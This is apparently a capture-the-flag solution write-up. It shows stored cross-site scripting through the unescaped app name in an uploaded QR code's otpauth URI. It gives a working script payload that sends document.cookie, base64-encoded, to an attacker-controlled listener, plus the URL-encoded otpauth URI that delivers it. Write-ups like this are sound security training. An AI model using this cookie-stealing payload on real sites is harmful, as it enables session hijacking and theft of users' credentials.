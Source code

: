 # Solution

The app is generally safe. On functionality that can be used is an upload. When you upload QR code with a proper OTP format, the name of the App won't be escaped.

Example payload:

```
<script>document.location="http://127.0.0.1:1337/" + btoa(document.cookie)</script>
```

For location you should use your own webserver that will get the request (ngrok, interact.sh, collaborator etc.)

Then you should include URL-encoded payload in the a valid otpauth URI:

```
otpauth://totp/App:%3Cscript%3Edocument.location%3D%22http%3A%2F%2F127.0.0.1%3A1337%2F%22%20%2B%20btoa%28document.cookie%29%3C%2Fscript%3E?secret=JBSWY3DPEHPK3PXP&issuer=App
```

All you have to do is make a QR code from this, upload it and wait for the request with cookie which holds the flag.
